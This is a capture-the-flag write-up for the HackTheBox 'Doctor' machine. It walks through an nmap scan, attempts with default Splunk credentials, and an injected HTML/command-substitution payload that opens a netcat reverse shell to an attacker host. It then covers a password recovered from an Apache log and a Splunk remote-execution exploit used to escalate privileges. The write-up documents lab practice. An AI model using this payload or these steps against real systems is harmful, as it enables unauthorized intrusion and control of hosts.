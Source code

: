 # HackTheBox-Doctor

## NMAP

```
Nmap scan report for 10.10.10.209
Host is up (0.21s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## PORT 80

<img src="https://imgur.com/byFNRNC.png"/>

Looking at source code we see a domain name `doctors.htb`

<img src="https://imgur.com/XBNWOzc.png"/>

So let's try to add this on to our `/etc/hosts`

<img src="https://imgur.com/S0jQu4X.png"/>

## doctors.htb

<img src="https://imgur.com/fgUDmyL.png"/>

We can register and login with an account but it's not really useful 

## PORT 8089

<img src="https://imgur.com/S4Iafvg.png"/>

I tried searching for default credentials for `splunkd` beacause for navigating to `servicesNS` credentials are required so I tried `admin:admin` and `admin:changeme` but didn't worked

Then I found this repository on GitHub

<img src="https://imgur.com/lt10mJd.png"/>

We are going to use `PySplunkWhisperer2_remote`  because it's not being hosted on our machine

But this would not work becasue we need the credentials so I head over back to `doctors.htb` logged in as a new user at this point I didn't do it myself I had a little help from discord server

`<img src=http://IP/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'IP'$IFS'PORT')>`

<img src="https://imgur.com/wlMMBqk.png"/>

I didn't find anything on the box through manual enumeration so going to go with `linpeas`

<img src="https://imgur.com/MbdWgLO.png"/>

<img src="https://imgur.com/X6uDeig.png"/>

This was the only interesting thing that `linpeas` found

Reading `/var/log/apache2/backup`

<img src="https://imgur.com/ctoci6w.png"/>

`email=Guitar123`

Now I tried this at `doctors.htb/login` to reset the password but there was no email registered with this 

By ruuning linpeas and found that there is a  user named `shaun` so I guessed maybe this would be his password and I logged in with `shaun`

<img src=https://imgur.com/EKTuTGh.png/>

<img src="https://imgur.com/DiJJlpW.png"/>

Then I again ran `linpeas` 

<img src="https://imgur.com/UqNF3JG.png"/>

And found some credentials in form of `bcrypt` hash

`$2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S`

But I could not crack this so I then returned to that exploit that we found and ran `python3 PySplunkWhisperer2_remote.py` 

<img src="https://imgur.com/X8OTA3p.png"/>

So this means that we are authenticated and now only need to include the payload


<img src="https://imgur.com/TkGzdYr.png"/>

And we are done , this wasn't really an "Easy" machine . Coming from TryHackMe , HackTheBox is way more diffcult 